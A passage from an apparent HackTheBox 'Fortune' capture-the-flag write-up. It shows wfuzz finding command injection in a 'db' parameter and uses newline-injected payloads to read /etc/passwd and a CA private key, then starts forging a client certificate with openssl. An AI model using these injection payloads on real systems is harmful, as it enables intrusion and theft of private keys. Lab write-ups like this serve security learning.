 Originally I expected some sort of LFI here so we start by fuzzing the parameter with wfuzz:

```
wfuzz --hh 293 -w ~/tools/SecLists/Fuzzing/LFI-JHADDIX.txt -d "db=FUZZ" http://fortune.htb/select
```

```
000007:  C=200     90 L       191 W     4277 Ch    "%0a/bin/cat%20/etc/passwd"
```

Just a after a few seconds we see that it found a way to inject commands, in this case reading "/etc/passwd". Since typing the commands in burp is not too inconvenient we start by enumerating the system. First thing is to recursively list the home folders to see if there is an easy user flag grab, but fortunately this is not the case here (looking at you netmon). However we learn about some local users and find some certificate files:

```
drwxr-xr-x   5 root     wheel     512B Nov  2 21:19 .
drwxr-xr-x  13 root     wheel     512B Mar  9 14:14 ..
drwxr-xr-x   5 bob      bob       512B Nov  3 16:29 bob
drwxr-x---   3 charlie  charlie   512B Nov  5 22:02 charlie
drwxr-xr-x   2 nfsuser  nfsuser   512B Nov  2 22:39 nfsuser
...
/home/bob/ca/intermediate/certs:
total 32
drwxr-xr-x  2 bob  bob   512B Nov  3 15:40 .
drwxr-xr-x  7 bob  bob   512B Nov  3 15:37 ..
-r--r--r--  1 bob  bob   4.0K Oct 29 20:58 ca-chain.cert.pem
-r--r--r--  1 bob  bob   1.9K Oct 29 21:13 fortune.htb.cert.pem
-r--r--r--  1 bob  bob   2.0K Oct 29 20:56 intermediate.cert.pem

/home/bob/ca/intermediate/private:
total 20
drwxr-xr-x  2 bob  bob   512B Oct 29 21:13 .
drwxr-xr-x  7 bob  bob   512B Nov  3 15:37 ..
-r--------  1 bob  bob   1.6K Oct 29 21:10 fortune.htb.key.pem
-rw-r--r--  1 bob  bob   3.2K Oct 29 20:48 intermediate.key.pem
...
```

It looks like we have everything we need here to create our own key and sign it with the ca certs! We download the pem files of the intermediate ca because we see both the key and the cert for it, by using `cat`:

```
db=%0a/bin/cat%20/home/bob/ca/intermediate/private/intermediate.key.pem
db=%0a/bin/cat%20/home/bob/ca/intermediate/certs/intermediate.cert.pem
```

Looking at the intermediate ca certificate we see the following contents:

![](htb_fortune_intermediate_ca.png)We start by creating a new key and csr for "alice":

```
openssl req -newkey rsa:4096 -keyout alice_key.pem -out alice_csr.pem -nodes -days 365 -subj "/CN=alice"
```
